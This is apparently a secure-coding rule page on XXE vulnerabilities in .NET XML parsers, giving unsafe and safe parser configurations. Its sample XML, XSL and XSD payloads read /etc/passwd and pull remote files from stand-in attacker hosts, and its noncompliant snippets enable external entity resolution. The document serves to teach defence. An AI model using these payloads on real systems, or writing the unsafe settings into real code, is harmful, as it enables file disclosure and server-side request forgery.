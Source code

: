 
[XML specification](https://www.w3.org/TR/xml/) allows the use of entities that can be [internal](https://www.w3.org/TR/xml/#sec-internal-ent) or [external](https://www.w3.org/TR/xml/#sec-external-ent) (file system / network access ...).

Allowing access to external entities in XML parsing could lead to vulnerabilities like confidential file disclosures or [SSRFs](https://www.owasp.org/index.php/Server_Side_Request_Forgery):

Example in XML document:


    &lt;?xml version="1.0" encoding="utf-8"?&gt;
      &lt;!DOCTYPE test [
        &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt;
      ]&gt;
    &lt;note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.attacking.com/deleteall"&gt;
      &lt;to&gt;&amp;xxe;&lt;/to&gt;
      &lt;from&gt;Jani&lt;/from&gt;
      &lt;heading&gt;Reminder&lt;/heading&gt;
      &lt;body&gt;Don't forget me this weekend!&lt;/body&gt;
    &lt;/note&gt;


Example in XSL document:


    &lt;?xml version="1.0" encoding="UTF-8"?&gt;
    &lt;!DOCTYPE root [
      &lt;!ENTITY content SYSTEM "file:/etc/passwd"&gt;
    ]&gt;
    &lt;xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"&gt;
      &lt;xsl:import href="http://www.attacker.com/evil.xsl"/&gt;
      &lt;xsl:include href="http://www.attacker.com/evil.xsl"/&gt;
     &lt;xsl:template match="/"&gt;
      &amp;content;
     &lt;/xsl:template&gt;
    &lt;/xsl:stylesheet&gt;


Example in XSD document:


    &lt;?xml version="1.0" encoding="UTF-8"?&gt;
    &lt;!DOCTYPE schema PUBLIC "-//W3C//DTD XMLSchema 200102//EN" "" [
       &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt;
      ]&gt;
    &lt;xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema"&gt;
      &lt;xs:import namespace="test" schemaLocation="http://www.attacker.com/evil.xsd"/&gt;
      &lt;xs:element name="note"&gt;
        &lt;xs:complexType&gt;
          &lt;xs:sequence&gt;
            &lt;xs:element name="to" type="xs:string"/&gt;
            &lt;xs:element name="from" type="xs:string"/&gt;
            &lt;xs:element name="heading" type="xs:string"/&gt;
            &lt;xs:element name="body" type="xs:string"/&gt;
          &lt;/xs:sequence&gt;
        &lt;/xs:complexType&gt;
      &lt;/xs:element&gt;
    &lt;/xs:schema&gt;


It is recommended to disable access to external entities.

## Noncompliant Code Examples

System.Xml.XmlDocument


    // .NET Framework &lt; 4.5.2
    XmlDocument parser = new XmlDocument(); // Noncompliant: XmlDocument is not safe by default
    parser.LoadXml("xxe.xml");
    
    or
    
    // .NET Framework 4.5.2+
    XmlDocument parser = new XmlDocument();
    parser.XmlResolver = new XmlUrlResolver(); // Noncompliant: XmlDocument.XmlResolver configured with XmlUrlResolver that makes it unsafe
    parser.LoadXml("xxe.xml");


System.Xml.XmlTextReader


    // .NET Framework &lt; 4.5.2
    XmlTextReader reader = new XmlTextReader("xxe.xml"); // Noncompliant: XmlTextReady is not safe by default
    while (reader.Read())
    { ... }
    
    or
    
    // .NET Framework 4.5.2+
    XmlTextReader reader = new XmlTextReader("xxe.xml");
    reader.XmlResolver = new XmlUrlResolver(); // Noncompliant: XmlTextRead.XmlResolver configured with XmlUrlResolver that makes it unsafe
    while (reader.Read())
    { ... }


System.Xml.XmlReader


    // .NET Framework 4.5.2+
    XmlReaderSettings settings = new XmlReaderSettings();
    settings.DtdProcessing = DtdProcessing.Parse;
    settings.XmlResolver = new XmlUrlResolver();
    XmlReader reader = XmlReader.Create("xxe.xml", settings); // Noncompliant: XmlReader is safe by default and becomes unsafe if DtdProcessing = Parse and XmlResolver is not null
    while (reader.Read())
    { ... }


System.Xml.XPath.XPathDocument


    // prior to .NET 4.5.2
    XPathDocument doc = new XPathDocument("example.xml"); // Noncompliant
    XPathNavigator nav = doc.CreateNavigator();
    string xml = nav.InnerXml.ToString();


## Compliant Solution

System.Xml.XmlDocument


    XmlDocument parser = new XmlDocument();
    parser.XmlResolver = null; // Compliant: XmlResolver has been set to null
    parser.LoadXml("xxe.xml");
    
    or
    
    XmlDocument parser = new XmlDocument(); // Compliant: XmlDocument is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    parser.LoadXml("xxe.xml");


System.Xml.XmlTextReader


    // .NET 4.5.2+
    XmlTextReader reader = new XmlTextReader("xxe.xml"); // Compliant: XmlTextReader is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    while (reader.Read())
    { ... }
    
    // .NET 4.0 to .NET 4.5.1
    XmlTextReader reader = new XmlTextReader("xxe.xml");
    reader.DtdProcessing = DtdProcessing.Prohibit; // Compliant: XmlTextReader is safe by default in  .NET Framework 4.5.2+ because XmlResolver is set by default to null
    
    // &lt; .NET 4.0
    XmlTextReader reader = new XmlTextReader(stream);
    reader.ProhibitDtd = true; // Compliant: default is false


System.Xml.XmlReader


    XmlReader reader = XmlReader.Create("xxe.xml"); // Compliant: XmlReader is safe by default
    while (reader.Read())
    { ... }


System.Xml.XPath.XPathDocument


    // prior to .NET 4.5.2
    XmlReader reader = XmlReader.Create("example.xml");
    XPathDocument doc = new XPathDocument(reader); // Compliant: XPathDocument is safe when being given a safe XmlReader
    XPathNavigator nav = doc.CreateNavigator();
    string xml = nav.InnerXml.ToString();


## See

- [OWASP Top 10 2017 Category A4](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_%28XXE%29) - XML External Entities<br>  (XXE)
- [OWASP XXE Prevention Cheat<br>  Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#net)
- [MITRE, CWE-611](http://cwe.mitre.org/data/definitions/611.html) - Information Exposure Through XML External Entity Reference
- [MITRE, CWE-827](http://cwe.mitre.org/data/definitions/827.html) - Improper Control of Document Type Definition

